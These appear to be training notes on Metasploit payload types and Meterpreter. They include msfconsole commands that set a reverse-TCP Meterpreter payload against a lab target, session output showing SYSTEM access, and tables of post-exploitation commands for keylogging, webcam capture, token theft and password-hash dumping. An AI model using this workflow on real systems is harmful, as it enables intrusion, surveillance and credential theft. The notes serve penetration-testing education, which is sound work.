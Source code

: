 

## What is a Payload

- Code executed **after an exploit is delivered**.
    
- Enables actions like **returning a shell** or **creating a backdoor**.
    
- Sent **with the exploit** to interact with the compromised system.
    

---

## Payload Module Types

|Type|Description|Example|
|---|---|---|
|**Single**|All-in-one, self-contained; executed immediately; less flexible.|`windows/shell_bind_tcp`|
|**Stager**|Small, reliable; sets up connection for larger code.|Part of staged payloads|
|**Stage**|Large code delivered after stager; performs full payload functionality.|`windows/shell/bind_tcp`|

---

## Payload Typologies

- **Single:** Compact, standalone payload.
    
- **Stager:** Handles initial connection setup.
    
- **Stage:** Provides full interactive control after the stager connects.
    

---

## Searching for Payloads

```
msf6 > show payloads
msf6 > grep meterpreter grep reverse_tcp show payloads
```

---

## Selecting and Configuring Payloads

**Set payload:**

```
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

**Show options:**

```
msf6 > show options
```

**Set parameters:**

```
msf6 > set LHOST 10.10.14.15
msf6 > set RHOSTS 10.10.10.40
```

**Run exploit:**

```
msf6 > run
```

---

## Example: Meterpreter Session

```
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158)
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## Meterpreter Command Categories

|Category|Commands|
|---|---|
|**Core**|`background`, `sessions`, `load`, `help`, `exit`|
|**File System**|`ls`, `cd`, `upload`, `download`, `rm`, `mkdir`, `search`|
|**Networking**|`ipconfig`, `netstat`, `portfwd`, `route`, `resolve`|
|**System**|`ps`, `kill`, `migrate`, `shell`, `getuid`, `sysinfo`, `execute`|
|**User Interface**|`screenshot`, `screenshare`, `keyscan_start`, `keyboard_send`|
|**Webcam/Microphone**|`webcam_snap`, `record_mic`, `webcam_stream`|
|**Privilege Elevation**|`getsystem`, `steal_token`, `rev2self`, `drop_token`|
|**Password Dumping**|`hashdump`|
|**Timestamping**|`timestamp`|

---

## Common Windows Payload Examples

|Payload|Description|
|---|---|
|`windows/x64/exec`|Executes a command|
|`windows/x64/messagebox`|Opens a message dialog|
|`windows/x64/shell_reverse_tcp`|Basic reverse TCP shell|
|`windows/x64/meterpreter/reverse_tcp`|Full-feature Meterpreter reverse shell|
|`windows/x64/powershell/reverse_tcp`|PowerShell reverse session|
|`windows/x64/vncinject/reverse_tcp`|VNC remote desktop access|